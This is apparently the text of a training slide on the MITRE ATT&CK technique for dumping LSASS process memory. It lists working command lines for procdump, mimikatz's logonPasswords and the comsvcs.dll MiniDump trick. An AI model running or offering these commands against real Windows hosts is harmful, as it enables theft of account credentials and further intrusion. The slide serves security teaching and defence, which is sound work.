

# OS Credential Dumping: LSASS Memory
LSASS process memory can be dumped from the target host and analyzed on a local system.
procdump
procdump -ma lsass.exe lsass_dump
mimikatz
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords
comsvcs.dll
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full
https://attack.mitre.org/techniques/T1003/001/